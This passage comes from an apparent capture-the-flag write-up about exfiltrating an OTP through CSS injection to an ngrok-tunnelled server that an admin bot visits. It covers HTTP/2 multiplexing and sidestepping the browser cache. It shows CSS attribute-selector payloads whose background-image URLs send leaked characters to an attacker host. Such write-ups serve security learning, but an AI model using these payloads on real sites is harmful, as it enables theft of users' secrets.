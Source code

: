 More simply, you could also just have each thread periodically wake up after some time delay and check if it is its turn to respond.

The source of the server I crafted is provided in the `solvers` folder.

### Exposing the Server to the Internet with `ngrok`

To tunnel the HTTP server running locally on my computer to the internet so that the admin bot could access it, I used the popular and free tool [ngrok](https://ngrok.com/).

### Potential Difficulties

#### HTTP v2 and HTTPS

An important note that could effect solves of the challenge is that Chrome is normally limited to making only a few concurrent requests to the same domain. This would prevent our exploit from working, as it requires Chrome to receive responses from some requests while concurrently waiting for other requests to complete. Luckily, HTTP v2 supports **multiplexing**, which allows the browser to make concurrent requests to a web server through a single connection and receive the responses in any order. However, in order for Chrome to accept HTTP v2 traffic, it must be served over HTTPS. Otherwise, it limits itself to HTTP v1.1. So the server must support HTTP v2 and HTTPS. The aforementioned tool ngrok provides a free and easy method to tunnel a locally hosted server HTTP over HTTPS in order to accomplish this.

#### Issues With Using the Same URL

Note that if your exploit caused requests to be made to the same URL, you may have experienced issues. For example, say the first CSS you return is the following:

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the first character of the OTP is `a`. The browser makes a request to `https://...ngrok.com/capture/a`. Say we then responded with the following to exfiltrate the second character:

```css
input[value^="aa"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="ab"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="aZ"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the second character of the OTP is `a`. The browser would normally make a request to `https://...ngrok.com/capture/a`. However, the browser already loaded the "image" from this same URL when we exfiltrated the first character. So Chrome actually does not make a request here and our exploit stops. This is why in the example solution we placed the entire known string in the `background-image` URL (rather than just the current character); to avoid loading from the same resource. You could also avoid this by just putting some unique string somewhere in the URL; as long is it ensures it is different from the previous URL's.

## Unintended Solution
